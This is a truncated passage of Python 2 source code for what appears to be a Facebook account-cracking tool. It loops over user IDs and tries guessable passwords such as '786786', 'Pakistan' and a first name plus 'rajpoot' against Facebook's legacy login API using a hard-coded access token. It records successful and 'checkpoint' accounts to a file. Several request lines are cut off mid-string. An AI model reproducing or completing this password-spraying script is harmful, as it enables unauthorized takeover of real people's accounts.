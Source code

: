 			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'Pakistan'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = a['first_name'] + 'rajpoot'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
